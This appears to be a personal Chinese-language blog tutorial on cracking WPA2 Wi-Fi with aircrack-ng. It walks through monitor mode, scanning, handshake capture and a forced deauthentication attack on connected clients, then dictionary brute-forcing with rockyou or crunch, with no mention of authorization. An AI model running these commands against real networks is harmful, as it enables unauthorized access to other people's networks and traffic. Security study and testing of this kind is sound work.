 ```yaml
---
title: aircrack-ng
date: 2019-12-10 19:35:51
categories: vm
tags: 
- secure

---
```


# aircrack-ng wifi 渗透

## 小知识

1. 现在的路由器基本都是WPA2的加密方式

2. Aircrack-ng是一个包含了多款工具的套装：

   | **组件名称**    | **描  述**                                                   |
   | :-------------- | ------------------------------------------------------------ |
   | **aircrack-ng** | 主要用于WEP及WPA-PSK密码的恢复，只要airodump-ng收集到足够数量的数据包，aircrack-ng就可以自动检测数据包并判断是否可以破解 |
   | **airmon-ng**   | 用于改变无线网卡工作模式，以便其他工具的顺利使用             |
   | **airodump-ng** | 用于捕获802.11数据报文，以便于aircrack-ng破解                |
   | **aireplay-ng** | 在进行WEP及WPA-PSK密码恢复时，可以根据需要创建特殊的无线网络数据报文及流量 |
   | **airserv-ng**  | 可以将无线网卡连接至某一特定端口，为攻击时灵活调用做准备     |
   | **airolib-ng**  | 进行WPA Rainbow Table攻击时使用，用于建立特定数据库文件      |
   | **airdecap-ng** | 用于解开处于加密状态的数据包                                 |
   | **tools**       | 其他用于辅助的工具，如airdriver-ng、packetforge-ng等         |

3. aireplay-ng当前支持的攻击种类如下：

   - Attack 0：解除认证攻击
   - Attack 1：伪造认证攻击
   - Attack 2：交互式注入攻击
   - Attack 3：ARP请求包重放攻击
   - Attack 4：chopchop Korek攻击
   - Attack 5：碎片交错攻击
   - Attack 6：Cafe-latte 攻击
   - Attack 7：面向客户的碎片攻击
   - Attack 8：WPA迁移模式
   - Attack 9：数据包注入测试

## 准备阶段

### 查看网卡

```
ifconfig
```

- 可以看到里面有个wlan0，如果没有的话就把无线网卡拔了再插一下。直到找到那个wlan0为止。
- 一定要保证它现在没有连接到任何wifi。上面那个wlan0里面没有ip地址什么的就说明现在不在连接中。

### 杀进程

```
airmon-ng check kill
```

### 载入无线网卡驱动，激活无线网卡至monitor即监听模式

就下面一句就可以了

```
#sudo ifconfig wlan0 up
airmon-ng start wlan0
```

- 可以看到下面写了monitor mode enable on **wlan0mon**

  重点!这句话的意思是，在监听模式下，无线网卡的名称已经变为了wlan0mon。

### 重启网卡

*感觉木啥用,随便搞不搞都行.*

``` 
sudo ifconfig wlan0mon down
sudo iwconfig wlan0mon mode monitor
sudo ifconfig wlan0mon up 
```

## 探索阶段

查看周围wifi的各种信息

```
airodump-ng wlan0mon
```

- **bssid**:mac地址
- essid:wifi名称
- **ch**:channel信道
- enc:加密方式
- 下半部分的表罗列出连接到我连到的wifi内的设备的mac地址

## 抓包阶段

我们已经看到了要攻击的路由器的mac地址和其中的客户端的mac地址，还有工作频道。执行：

```
airodump-ng wlan0mon --bssid 路由器的mac地址 -c 信道 -w wpa
```

- --bssid 是路由器的mac地址
- -w 是写入到文件wpa中
- -c 11 是频道11

## 攻击阶段

这里为了获得破解所需的WPA2握手验证的整个完整数据包，我们将会发送一种称之为“Deauth”的数据包来将已经连接至无线路由器的合法无线客户端强制断开，此时，客户端就会自动重新连接无线路由器，我们也就有机会捕获到包含WPA2握手验证的完整数据包了。

```
aireplay-ng -0 1 –a 路由mac地址 -c 目标mac地址 wlan0mon
```

- -0 采用deauth攻击模式，后面跟上攻击次数
- -a 后跟路由器的mac地址
- -c 后跟客户端的mac地址

注意看抓包页面右上角是否出现**WPA handshake [路由地址]**

这步很重要,要反复直到刷出

## 破解阶段

**用kali自带字典爆破**

1. 看看

```
ls
```

2. 使用Kali Linux中默认存在的字典，目录为/usr/share/wordlists/rockyou.txt.zip，其中需要使用命令来解压：

这步只需要做一次，下次就不用做了，因为已经解压好了

如果出现错误，按路径找到文件手动解压

~~这操蛋的人生~~

```
gunzip /usr/share/wordlists/rockyou.txt.zip
```

这里顺便记录一下Kali中几个常用的字典文件的位置：

/usr/share/john/password.lst

/usr/share/wfuzz/wordlist

/usr/share/ wordlists

3. 破解

至于这里为什么是wpa-04，因为我~~傻傻的~~做了四次抓包。

```
aircrack-ng -w /usr/share/wordlists/rockyou.txt wpa-04.cap
```

**常规**

使用aircrack-ng进行破解

1. 先看看我们抓到的握手包是什么名字

```
ls
```

可以看到一个叫做longas-01.ivs的，这个就是我们要破解的文件。
这时候我们需要准备一个字典文件用来破解这个longas-01.ivs。

2. 可以使用crunch这个软件生成字典。
3. 破解

```
aircrack-ng -w dict1.txt longas-01.ivs
```

此时的破解速度跟使用的机器性能和字典大小有关。为了节省时间可以把密码直接加入到字典中了。

